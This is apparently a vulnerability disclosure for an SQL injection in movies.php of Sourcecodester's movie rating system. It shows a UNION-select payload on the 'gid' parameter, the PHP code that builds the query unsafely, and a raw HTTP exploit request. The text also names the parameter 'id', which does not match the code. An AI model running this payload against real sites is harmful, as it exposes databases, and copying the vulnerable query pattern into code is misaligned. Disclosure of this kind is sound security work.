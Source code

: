 # SQL Injection vulnerability was discovered in Sourcecodester's Sentiment Based Movie Success Rating Prediction System  (movies)

Official Website: https://www.sourcecodester.com/php/15104/sentiment-based-movie-rating-system-using-phpoop-free-source-code.html

Version: 1.0 Related Code file: /msrps/movies.php

dbname=msrps_db

Payload: /msrps/?page=movies&genre=Fantasy&gid=-13' union select 1,database(),3,4,5,6,7,8,9,10,11,12,13--+


<hr>

```php
<?php 
$title =isset($_GET['genre']) ? urldecode($_GET['genre'])." Movie List": "";
if(isset($_GET['search'])){
    $title = "Look for Movies that has '{$_GET['search']}' keyword...";
}
?>
<?php 
            $where ="";
            if(isset($_GET['gid'])){
                $where = " where CONCAT('|',REPLACE(`genres`,',','|,|'),'|') LIKE '%|{$_GET['gid']}|%' ";
            }
            if(isset($_GET['search'])){
                $s = $conn->real_escape_string($_GET['search']);
                $where = " where title LIKE '%{$s}%' OR  description  LIKE '%{$s}%' OR  actors LIKE '%{$s}%' OR  director LIKE '%{$s}%' OR writter LIKE '%{$s}%' OR  produced LIKE '%{$s}%' ";
            }
            $movie_query = $conn->query("SELECT * FROM `movie_list` {$where} order by `title` asc");
            while($row = $movie_query->fetch_assoc()):
            ?>
```
The id variable is directly inserted into the SQL query without any escaping or parameterization. An attacker could inject malicious SQL code by manipulating the id field. in (line number 1-24 of movies.php)

Injection parameter: id


```
GET /msrps/?page=movies&genre=Fantasy&gid=-13%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=d875bcn74rhdbnpu2oo6knfokq
Connection: close
```

![image](https://github.com/user-attachments/assets/5fe59ba4-1f7c-4313-923b-d9d4aa817e9c)

